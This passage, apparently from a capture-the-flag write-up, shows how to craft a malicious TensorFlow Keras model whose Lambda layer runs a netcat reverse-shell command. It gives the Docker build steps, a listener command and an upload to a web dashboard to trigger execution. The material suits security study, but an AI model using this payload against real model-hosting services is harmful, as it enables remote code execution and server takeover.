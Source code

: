 ### Setting Up a Docker Environment for the TensorFlow Exploit

Both `requirements.txt` and `Dockerfile` were downloaded to my `exploit` folder. Before building the Docker environment for the exploit, first created a payload script in the same directory.

#### **Step 1: Create the Payload Script**

In my `exploit` folder, I created a file called `exploit.py`. This script contains my TensorFlow payload:

```python title:exploit.py
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc $HOST-IP 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
**Note:** `$HOST-IP` is variable `<MY-IP>`with the IP address of my attacking machine.

#### **Step 2: Build the Docker Image**
Next, I opened a terminal in the `exploit` folder and ran:

```bash
sudo docker build -t artificial-exploit .
```
This built a Docker image with Python 3.8 and TensorFlow 2.13.1 installed, which matched the target environment.

#### **Step 3: Run the Docker Container with a Shared Volume**
To ensure that the payload file would appear on my host system, I ran:

```bash
sudo docker run -it -v $(pwd):/app artificial-exploit
```
- `$(pwd)` maps the current host folder to `/app` inside the container.
- Any files saved in `/app` inside the container automatically appear on the host.

#### **Step 4: Generate the Payload Inside Docker**
Inside the container, navigated to `/app` and executed the script:
```bash
cd /app  
python3 exploit.py
```
The file `exploit.h5` was generated in `/app` and also appeared in host folder.

#### **Step 5: Start a Listener for the Reverse Shell**
On local machine,  started a netcat listener to catch the reverse shell:
```bash
nc -nlvp 4444
```
Once the model executed on the web server, listener successfully caught the connection, giving me a shell.
#### **Step 6: Upload the Payload to the Web**
- Go to the dashboard, select the `exploit.h5` file, and upload the model. 
- After uploading, execute the payload by clicking on **View Predictions**.